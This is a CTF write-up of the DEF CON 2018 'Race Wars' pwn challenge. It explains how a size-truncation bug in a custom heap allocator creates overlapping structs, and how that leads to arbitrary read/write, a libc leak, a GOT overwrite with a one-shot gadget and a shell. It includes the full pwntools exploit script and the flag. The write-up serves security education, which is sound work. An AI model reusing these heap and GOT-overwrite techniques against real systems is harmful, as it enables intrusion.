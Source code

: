 # Race Wars

*This challenge was solved by VoidMercy and cts, VoidMercy doing the dynamic reversing and cts doing the static reversing.*

**VoidMercy**: We are given a binary. Its functionality is quite boring. It lets you create tires, select chassis, engine, and transmission. Afterwards, you can modify these, and/or race, in which you always lose.

Lets start with static analysis. The functionality is also quite bland. There are a ton of branches to each of these options, which assigns different values for different chosen options.

However, there is one big thing of interest you find while reversing. It is the function at 0x400bb6, which is called by all four options, to which values are being assigned. Diving into that function, we quickly find that it serves to allocate memory. There are two branches: if the requested size is greater than 0xfff, then it uses malloc() to allocate memory. However, if it is less, then the binary implements its own malloc implementation with posix_memalign. We also find that for the create tires option, we can control the size, and it mallocs size*32, so we have a controlled malloc size.

Now, custom heap implementations and heaps in general are a pain to statically reverse, so I begin dynamic analysis. Breaking at 0x400b66 and 0x400bb2, I can view the malloc size request and returned pointer. I tried viewing the heap and structs for any overflows and OOBs, to no avail. Then I tried putting in garbage values for tire malloc sizes, and found that huge values causes malloc to return 0x0 and errors out. However, when putting in huge values, I also noticed that, since it gets multiplied by 32, the bits greater than 32 bits get truncated off. So if I can pass in a size of 0x100000000 to malloc, that gets truncated to 0x00000000. I tried entering the tire size 0x100000000/32, and sure enough, the size passed to malloc is 0x0. 

**cts**: Now, a 0x0 allocation might not seem so bad, but this allocator breaks if you pass it a 0x0 allocation! Why? You have to reverse the allocator. For new allocations:
 - Big blocks (0x1000+) are allocated using `malloc` and prepended to a largeblocks linked list. The linked list elements are tags pointing to the blocks so they can be deallocated later, and these tags are allocated on the smallblocks heap.
 - Small blocks heap are allocated sequentially into bins of size 8196. Once a bin runs out of space, a new bin is allocated using `posix_memalign`.

Suffice it to say, a 0x0 allocation means that the next allocation would lead to the same pointer! Which is exactly what happens when we allocate a transmission. We have found our vulnerability - double pointers.

Here's an idea of how the heap looks on the inside:
```C
struct __attribute__((aligned(8))) HeapListElem
{
  HeapListElem *flink;
  void *block;
};
struct __attribute__((aligned(8))) HeapDestructorCallback
{
  void (__fastcall *funcptr)(void *);
  void *param;
  HeapDestructorCallback *flink;
};
struct __attribute__((aligned(8))) HeapBin
{
  void *pNextFreeLoc;
  uint64_t pEnd;
  HeapBin *flink;
  uint64_t heapIndex;
  uint64_t maxChunkSize;
  HeapBin *pFreeHeap;
  uint64_t field6;
  HeapListElem *largeblocks;
  HeapDestructorCallback *pDestructorCallbacks;
  uint64_t field9;
  char memory[8112];
};
```
(Note: the HeapDestructorCallback list is never used, so it's not an option to overwrite a function pointer.)

**VoidMercy**: So what can we do with this? The modifying transmission function sounds like a great read and write primitive, because it has built in functionalities to do that for us as long as gear size is large enough. So, if the gear size struct is also the same pointer as another struct we control, then we can modify gear size to an extremely large number, and gain arbitrary read/write primitive. The tire struct is perfect for this, since we control 8 bytes through editing tires:

```
printf("modify what?\n\t(1) width\n\t(2) aspect ratio\n\t(3) construction\n\t(4) diameter\nCHOICE: ");
  __isoc99_scanf("%d", &v5);
  if ( v5 == 2 )
  {
    printf("new aspect_ratio: ", &v5);
    __isoc99_scanf("%d", &v6); //two byte read
    printf("tires are now %d aspect\n", (unsigned __int8)v6);
    *(_WORD *)(a1 + 2) = v6; //two byte write
    goto LABEL_16;
  }
```

So we create a tire and transmission that point to the same malloced chunk. Then we modify tire struct to a huge number by changing all four of its options to -1 (aka 0xffff). Then we can view the transmission, and find that we have arbitrary read and write.

```
tires are now 255 thick
Your Tires are: 655356553565535
modify your car
pick:
        (1) tires
        (2) chassis
        (3) engine
        (4) transmission
        (5) buy new part
        (6) RACE!
CHOICE: 4
choice 4
ok, you have a transmission with 18446744073709551615 gears
which gear to modify?
```

With this, we can leak the heap addresses near the transmission struct, and I found one at offset 0x17. With this we can calculate the address of our transmission struct, and gain read to everything.

Next I leaked libc by reading from putsgot, calculated address of one shot gadget, then overwrote free GOT with it, triggered free, and got a shell.

```python
from pwn import *

def modtire(c, v):
	p.recvuntil('CHOICE: ')
	p.sendline('1')
	p.recvuntil('CHOICE: ')
	p.sendline(str(c))
	p.recvuntil(': ')
	p.sendline(str(v))
def twocomp(val):
	return 0xffffffffffffffff - val + 1
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()
def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1

p = remote('2f76febe.quals2018.oooverflow.io', 31337)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

p.recvuntil('CHOICE: ')
p.sendline('1')
p.sendline(str(0x100000000/32))

p.recvuntil('CHOICE: ')
p.sendline('4')
p.recvuntil('? ')
p.sendline('0')

p.recvuntil('CHOICE: ')
p.sendline('2')
p.sendline('1')

p.recvuntil('CHOICE: ')
p.sendline('3')

modtire('1', '-1')
modtire('2', '-1')
modtire('3', '-1')
modtire('4', '-1')

add = ''
for x in range(0x17, 0x17+8):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(x + 1))
	p.recvuntil(' is ')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
heapleak = u64(add.decode('hex'))
struct = heapleak - 0x10

distance = struct - 0x603020 #putgot
add = ''
for x in xrange(distance, distance-8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
puts_addr = u64(add.decode('hex'))
print "struct:" + hex(struct)
print 'puts:' + hex(puts_addr)
libc_base = puts_addr - 0x6f690 #put offset
oneshot = libc_base + 0x4526a #oneshot offset
print "oneshot:" + hex(oneshot)
asdf = 0
distance = struct - 0x603018 #free got
for x in xrange(distance, distance - 8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	p.sendline(str(ord(p64(oneshot)[asdf])))
	p.sendline('1')
	asdf += 1

p.recvuntil('CHOICE: ')
p.sendline('6')

p.interactive()
```

## Flag: OOO{4 c0upl3 0f n1554n 5r205 w0uld pull 4 pr3m1um 0n3 w33k b3f0r3 r4c3 w4rz}
